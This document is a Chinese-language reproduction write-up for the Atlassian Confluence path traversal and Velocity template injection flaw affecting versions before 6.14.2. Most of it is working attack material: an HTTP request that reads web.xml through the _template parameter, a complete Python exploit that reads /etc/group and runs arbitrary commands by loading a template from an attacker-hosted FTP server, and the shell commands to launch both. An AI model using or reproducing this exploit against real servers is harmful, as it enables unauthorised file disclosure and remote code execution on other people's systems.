





# Atlassian Confluence 路径穿越与命令执行漏洞

> 漏洞说明

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。


> 前提条件

版本：Atlassian Confluence < 6.14.2


> 利用工具

[exp](https://github.com/Yt1g3r/CVE-2019-3396_EXP/blob/master/RCE_exp.py)


> 漏洞复现

环境启动后，访问http://192.168.40.77/:8090进入安装引导，选择“Trial installation”，之后会要求填写license key。官网未找到申请试用途径，网上找个key尝试



配置数据库



后续其他配置看着选，成功搭建环境



但key过期还是无法试用



官网也没有购买链接



读取文件web.xml,POC如下

```http
POST /rest/tinymce/1/macro/preview HTTP/1.1

Host: xxx.xxx.xxx:8090

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0

Accept: text/plain, */*; q=0.01

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/json; charset=utf-8

Content-Length: 168

Origin: http://xxx.xxx.xxx.xxx:8090

Connection: close

Referer: http://xxx.xxx.xxx.xxx:8090/pages/resumedraft.action?draftId=65587&draftShareId=3aae85b8-030c-44bb-b8f4-d33a1771591c

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

```


命令执行EXP

```python
# -*- coding: utf-8 -*-
import re
import sys
import requests
import ssl
try:
    _create_unverified_https_context = ssl._create_unverified_context
except AttributeError:
    pass
else:
    ssl._create_default_https_context = _create_unverified_https_context

def _read(url):
    result = {}
    # filename = "../web.xml"
    filename = 'file:////etc/group'

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]


def _exec(url,cmd):
    result = {}
    filename = "ftp://1.1.1.1/cmd.vm"

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]


if __name__ == '__main__':

    if len(sys.argv) != 3:
        print 'Usage: RCE_exp.py http[s]://target.com:8080/ "ls -al"'
        sys.exit(0)
    url = sys.argv[1]
    cmd = sys.argv[2]
    print _exec(url,cmd)
    
```

用法

```shell
python -m pyftpdlib -p 21
python RCE_exp.py http://xxx.xx.xx.xx:8090 "id"
```


